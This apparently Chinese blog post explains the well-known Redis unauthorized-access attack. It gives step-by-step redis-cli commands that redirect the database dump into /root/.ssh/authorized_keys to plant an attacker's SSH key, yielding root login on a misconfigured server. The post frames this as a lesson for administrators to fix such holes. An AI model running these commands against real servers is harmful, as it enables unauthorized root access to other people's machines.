 ```yaml
---
layout: post
title: web实战开发--利用redis漏洞 Hacker对方机器的
categories:
- 今日头条
tags:
---
```

				前言:

服务器端的安全问题, 以前有所耳闻, 听得最多的就是DDOS攻击, 还有就是缓冲区溢出攻击.

但是对通过Redis服务的安全漏洞, 从而绕过验证, 登陆对方机器, 这算是第一次耳闻.

今天趁此机会, 来谈一下, hacker对方机器的原理是什么?

![](http://p3.pstatp.com/large/97000015f03064144c2)

linux的信任机制:

做个互联网运维的工程师, 需要维护众多的机器, 如果每个命令都需要输入的密码的话. 那会非常的崩溃, 于是乎, 安全的免密码登陆方案便如同雨后春笋, 层出不穷.

其中配置信任关系的方案, 成了很多工程师的首选.

那信任关系是什么东东?

linux登陆时通过ssh协议, 来实现的, 但其通过配置RSA(ssh-genkey, ssh-copy-id)密钥对, 来实现免密码登陆.

具体操作:

1. 机器A生成公钥(空密码)

![](http://p3.pstatp.com/large/96c0001597f49e13e9c)

cat id_rsa.pub | ssh root@<ip> -x "cat >> /root/.ssh/authorized_keys"

3. 用户可以从机器A自由登陆到机器B

ssh root@<ip>



redis基础和管理命令:

redis号称世上最的强大数据结构服务器, 但其数据是可以持久化到本地的.

其数据以database的概念来存储的, 从linux的角度来看, database的集合为一个数据主目录, 而具体的database则以一个数据文件存在.

数据库目录: config get dir.

DB文件: config get dbfilename.

![](http://p3.pstatp.com/large/7fd0009f18886979772)

在redis交互中, 执行如下命令:

flushdbset hello worldsave

则cat dump.rdb文件内容后, 如下所示.

![](http://p3.pstatp.com/large/970000151a61fd2ed1e)



redis漏洞:

redis服务, 其没有配置任何安全措施, 同时以root账号运行. 那么任何人都能使用该redis服务.

1. 没有设置密码访问

2. bind于0.0.0.0:6379, 暴露于

3. root账号运行该redis服务

![](http://p3.pstatp.com/large/97000015f920ba2cebb)

在这个前提下, 攻击开始了.

hacker使用redis-cli, 或者其他工具, 连上redis服务.

1. 修改db的目录和文件名, 覆盖信任文件

redis:6379> config set dir /root/.sshredis:6379> config set dbfilename "authorized_keys"

2. 设置key/value值, 把秘钥写入

(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > val.txtcat val.txt | redis-cli -h <ip> -x set

3. 保存持久化

redis:6379> save

这样, 就简单的把hacker的信任秘钥写入到目标机器的/root/.ssh/authorized_keys文件上了.

这样就等价于, 最上面的免秘钥登陆设置. hacker只要简单的一个ssh登陆, 既达到了它的目标, 实在是完美.



后记:

有安全问题不可怕, 就怕知道漏洞, 还不去解决并修复它, 抱着侥幸心理, 永远是不行的.

本系列, 将讲述作者在使用和维护redis过程中, 一些心得, 希望和大家一起分享, 一起成长.